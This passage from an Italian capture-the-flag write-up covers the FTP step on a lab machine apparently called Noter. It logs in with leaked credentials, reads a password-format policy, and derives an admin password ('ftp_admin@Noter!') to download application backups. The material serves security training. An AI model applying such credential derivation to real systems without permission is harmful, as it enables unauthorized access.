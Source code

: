   <img src="Images/nota2.png" />
</p>

## 3. FTP
Nella seconda nota abbiamo le credenziali (`username` : `blue`, `password` : `blue@Noter!`) per il servizio ftp quindi effettuiamo l'accesso e vediamo cosa c'è:

```console
└─$ ftp blue@10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||58811|)
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24 20:59 policy.pdf
226 Directory send OK.
```

In *files* non c'è nulla e per leggere *policy.pdf* lo scarichiamo.

Nel PDF c'è esplicitamente scritto come le password vengono create ed in particolare il format che seguono: `username@site_name!`. Ricordando che il messaggio che si legge nella nota 2 viene firmata da `ftp_admin` si tenta l'accesso con le seguenti credenziali: `username` : `ftp_admin`, `password` : `ftp_admin@Noter!`

```console
└─$ ftp ftp_admin@10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41771|)
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
```